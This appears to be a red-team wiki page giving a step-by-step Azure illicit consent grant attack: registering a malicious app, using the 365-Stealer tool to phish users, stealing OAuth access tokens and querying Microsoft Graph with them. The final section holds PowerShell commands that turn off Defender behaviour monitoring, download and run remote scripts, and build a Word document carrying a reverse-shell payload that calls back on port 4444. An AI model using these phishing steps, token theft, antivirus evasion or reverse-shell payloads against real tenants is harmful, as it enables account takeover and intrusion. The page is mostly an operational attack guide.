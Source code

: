 # Illicit Consent Grant

## Attack path overview

Illicit consent Grant is the most common attack on Azure.

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Methodology

* As an attacker, create a tenant (even using the free registration)
* &#x20;Use "App registration" to create a malicious App
* Send the link to a victim
* Victim grant consent to the app and an authorization response will be sent to the attacker app, containing an access token
* Attacker can use the access token to access any service on the target tenant, such as MSGraph

## Implementation

* Register a new app from Azure AD

note: Domain can also be an IP.

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* Next, create a client secret and save it

<figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Add API permission for MSGraph API

<figure><img src="../../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Grant "Delegated Permission" to access the MSGraph using the target victim account and add User.ReadBasicAll (Low impact, no admin consent needed\*) permission

<figure><img src="../../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

> In case of already getting a foothold in the target tenant (eg compromised host), it is possible to verify the Consent Grant policy. Otherwise, it is not possible, we just have to blindly test it&#x20;

```powershell
# import AzureAD-Preview powershell module

Import-Module .\AzureADPreview.psd1

# check policy
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

# if it returns ManagePermissionGrantsForSelf.microsoft-user-default-legacy, it means tha
# the user can grant consent to all apps
```

## Weaponize the App

> Diffenrent tools can be used to steal token :&#x20;
>
> * MDSEC o365-attack-toolkit
> * AlteredSec 365-Stealer **(just a POC, don't use that in PROD)**
>
>

### o365-attack-toolkit

TODO...

{% embed url="https://github.com/mdsecactivebreach/o365-attack-toolkit" %}

### 365-Stealer

{% embed url="https://github.com/AlteredSecurity/365-Stealer" %}

* clone the tool
* copy the directory into a the web server root (htdocs for windows)&#x20;



```powershell
cp APPFOLDER C:\xampp\htdocs\
```

* start Apache and browse into the 365-Stealer page

<figure><img src="../../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

* configure the tool using the "Registered App" ClientID and Secret and the Redirect URI

note: use the following place to retrieve the APP id ...

![](../../../../../.gitbook/assets/image.png)

<figure><img src="../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Start 365-Stealer and retrieve the Phishing link

<figure><img src="../../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Send the malicious link to the victim

<figure><img src="../../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

> Reminder about the different parameters

<figure><img src="../../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



* Enumerate potential subdomains on the target , eg upload files etc .Send the malicious link to the victim

```powershell
import-module C:\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains  -Base TARGET -Verbose
```

* retrieve the token

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Access Token !</p></figcaption></figure>

* decoding the token

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

* use the token and make queries on MSGraph

```powershell
$token = "<Stolen Token>"
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

> Note: The malicious Registered App has now been added to the target Tenant, under Enterprise Applications



> ![](<../../../../../.gitbook/assets/image (1).png>)

<figure><img src="../../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Target a higher privilege account

* search for an admin cloud user as a target
* Modify the application and add the following rights to be able to access and take control

![](<../../../../../.gitbook/assets/image (2).png>)

* Regenerate a phishing link and send it to the target email retrieve from the previous steps



```powershell
// Generate a Word document from an another machine just as POC :)

PS C:\Windows\system32> $pass = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("HOST-vm\Administrator",$pass)
PS C:\Windows\system32> $officevm = New-PSSession -ComputerName IP -Credential $creds


PS C:\Windows\system32> Enter-PSSession -Session $officevm
[]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableBehaviorMonitoring $true
[]: PS C:\Users\Administrator\Documents> exit
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Enter-PSSession -Session $officevm


[]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://IP:PORT/Out-Word.ps1")

[]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://IP:PORT/InvokePowerShellTcp.ps1');Power -Reverse -IPAddress IP -Port 4444" -OutputFile file.doc
Saved to file file.doc

## Copy remotely
 Copy-Item -FromSession $officevm -Path C:\Users\Administrator\Documents\file.doc -Destination .
```

